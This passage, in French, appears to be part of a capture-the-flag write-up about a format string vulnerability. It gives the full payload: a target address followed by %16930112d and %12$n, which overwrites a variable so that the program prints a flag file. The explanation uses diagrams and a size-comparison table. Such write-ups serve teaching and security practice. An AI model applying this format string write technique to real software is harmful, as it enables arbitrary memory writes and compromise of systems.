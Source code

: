 1. **Format String** : `printf()` sans spécificateur interprète notre entrée comme des directives de format
2. **Directive `%Nd`** : Affiche un nombre avec padding, comptant dans le total de caractères
3. **Optimisation mémoire** : Évite de générer 16 millions de caractères physiques
4. **Écriture contrôlée** : `%12$n` écrit le nombre total à l'adresse spécifiée

### 4.2 Structure du payload

```
┌─────────────────┐
│ Adresse de m    │ ← 4 octets (\x10\x98\x04\x08)
├─────────────────┤
│ %16930112d      │ ← Directive de padding
├─────────────────┤
│ %12$n           │ ← Directive d'écriture
└─────────────────┘
```

**Total : 4 octets d'adresse + directives de format = payload compact**

### 4.3 Avantages de `%Nd` vs padding manuel

| Méthode | Taille payload | Mémoire utilisée |
|---------|----------------|------------------|
| Padding manuel | ~16MB | ~16MB |
| `%Nd` | ~50 bytes | ~50 bytes |

## 5. Structure du Payload

### 5.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│            FORMAT STRING OPTIMISÉ                      │
├─────────────────────────────────────────────────────────┤
│  Adresse m[4] + Directive padding + Directive écriture │
│  │                                                    │
│  └─→ \x10\x98\x04\x08 + "%16930112d" + "%12$n"     │
│      │                                                │
│      └─→ printf() interprète %Nd comme padding      │
│          │                                            │
│          └─→ %16930112d génère 16930112 caractères  │
│              │                                        │
│              └─→ %12$n écrit 16930116 dans m        │
│                  │                                    │
│                  └─→ m == 0x1025544 (16930116) ✓    │
│                      │                               │
│                      └─→ system("/bin/cat /home/...")│
│                          │                           │
│                          └─→ Flag affiché directement│
└─────────────────────────────────────────────────────────┘
```
